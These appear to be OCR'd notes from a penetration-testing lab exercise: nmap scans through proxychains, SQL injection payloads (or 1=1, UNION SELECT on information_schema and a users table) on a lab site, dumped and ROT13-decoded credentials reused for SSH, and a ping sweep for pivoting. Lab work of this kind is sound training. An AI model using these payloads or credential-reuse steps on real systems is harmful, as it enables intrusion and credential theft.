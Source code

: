 · nmap scan now for ports proxychains sudo nmap -sS -Pn 192.168.28.181 -p 135-139,22,80,443,21,8080

PORT STATE SERVICE 21/tcp filtered ftp 22/tcp filtered ssh 80/tcp filtered http 135/tcp filtered msrpc 136/tcp filtered profile 137/tcp filtered netbios-ns 138/tcp filtered netbios-dgm 139/tcp filtered netbios-ssn 443/tcp filtered https 8080/tcp filtered http-proxy

· open up firefox settings and change back proychains by going --> network setting --> manual proxy config --> Socks host: localhost | port 9050.

· go to 192.168.28.181 pn firefox

o it has a bunch of inventory for various electronics. Might be able to exploit?

o let's try to use SQL injection to see what is vulnerable

o start by trying to find total dump of usual database : http://192.168.28.181/pick.php?product=7%20or%201=1 so 7 is vulnerable and use or 1=1 to find it. From there we get the 3 columns needed o http://192.168.28.181/pick.php?product=7%20Union%20SELECT%20table_schema,%20column_name,%20table_name%20FROM%20information_schema.columns o http://192.168.28.181/pick.php?product=7%20Union%20SELECT%20user_id,%20name,%20username%20FROM%20siteusers.users

Item On Hand Price HAM 32 $15 1 Aaron $Aaron 2 user2 $user2 3 user3 $user3 4 Lroth $Lee_Roth 1 ncnffjbeqlCn$$jbeq $Aaron 2 RntyrfVfNER78 $user2 3 Obo4GURRnccyrf $user3 4 anotherpassword4THEages $Lroth

· aaron password translated from ROT13 --> apasswordyPa$$word

· run nmap to see open ports for ips: proxychains nmap -Pn 192.168.28.172 -p 135-139,22,80,443,21,8080 · see that ssh is open, try to ssh to it using Aaron@192.168.28.172 --> brings you to RoundSensor

RoundSensor

· Perform Reconnaissance

x. Actively scan and interact with target to find potential attack vectors.

· Attempt Exploitation || Gain Initial Access

xi. Use information gained from reconnaissance to gain access to the system. Reconnaissance from other targets within the network may have information relevant to any target.

· Find Additional Targets

xii. Perform post-exploitation tasks (situational awareness, localhost enumeration, privilege escalation, etc).

xiii. Discover additional targets through analysis of information from post-exploitation tasks.

· Pivot to Found Targets

xiv. Pivot through network to other targets as you find them.

Start of T3 enumeration (RoundSensor Notes)

· etc/hosts/ --> no useful ips

· for i in {1..254};do (ping -c 1 192.168.28.$i | grep "bytes from" &); done

64 bytes from 192.168.28.172: icmp_seq=1 ttl=64 time=0.031 ms 64 bytes from 192.168.28.179: icmp_seq=1 ttl=128 time=2.03 ms 64 bytes from 192.168.28.190: icmp_seq=1 ttl=64 time=0.764 ms
